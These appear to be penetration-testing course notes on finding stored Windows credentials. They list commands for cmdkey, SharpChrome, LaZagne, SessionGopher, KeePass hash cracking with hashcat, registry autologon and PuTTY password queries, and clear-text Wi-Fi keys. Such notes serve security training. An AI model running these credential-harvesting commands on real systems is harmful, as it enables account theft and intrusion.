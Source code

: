 ### **Cmdkey Stored Credentials**

- View saved credentials:
```cmd
cmdkey /list
```
- Example:
```cmd
Target: TERMSRV/SQL01
User: inlanefreight\bob
```
- Use saved creds via:
```cmd
runas /savecred /user:<domain\user> "COMMAND"
```



---

### **Browser Credentials**

#### _Chrome Saved Credentials_:

- Use **SharpChrome**:
```powershell
.\SharpChrome.exe logins /unprotect
```
- Retrieves credentials stored by Chrome using the DPAPI AES state key.

---

### **Password Managers**

#### _KeePass (.kdbx files)_:

- Extract hash:
```bash
python2.7 keepass2john.py <file.kdbx>
```
- Crack with Hashcat:
```bash
hashcat -m 13400 <hashfile> rockyou.txt
```

---

### **Email Credential Discovery**

- Use **MailSniper** to search Exchange inboxes for keywords:
    - _pass_, _creds_, _credentials_, etc.

---

### **LaZagne Credential Extraction**

- Multi-module credential scraper:
```powershell
.\lazagne.exe all
```
- Modules:
    - `windows`, `browsers`, `mails`, `databases`, `wifi`, `sysadmin`, etc.

- Can recover:
    - WinSCP, CredMan, browsers, system creds

---

### **SessionGopher (PowerShell)**

- Enumerates and decrypts saved session creds:
    - **PuTTY**, **WinSCP**, **RDP**, **SuperPuTTY**
```powershell
Import-Module .\SessionGopher.ps1
Invoke-SessionGopher -Target localhost
```

---

### **Registry Credential Storage**

#### _Windows Autologon_:

- Registry path:
```cmd
HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon
```
- Check with:
```powershell
reg query "HKLM\...\Winlogon"
```
Keys:
- `AutoAdminLogon=1`
- `DefaultUserName`
- `DefaultPassword`


---

#### _PuTTY Proxy Creds_:

- Stored under:
```powershell
HKEY_CURRENT_USER\SOFTWARE\SimonTatham\PuTTY\Sessions\<SESSION>
```
Look for:
- `ProxyUsername`
- `ProxyPassword`

---

### **Wi-Fi Credentials**

#### _List Wireless Profiles_:
```cmd
netsh wlan show profile
```
#### _Get Key for Specific Profile_:
```cmd
netsh wlan show profile <SSID> key=clear
```
Reveals:
- `Key Content: <password>`

---

## Summary

- Always enumerate **cmdkey**, **registry**, **PowerShell history**, **saved browser creds**, and **network profiles**.
- Use tools like:
    - `SharpChrome`, `LaZagne`, `SessionGopher`, `MailSniper`, `keepass2john`, `Hashcat`

- Autologon and PuTTY sessions are **common cleartext leak points**.


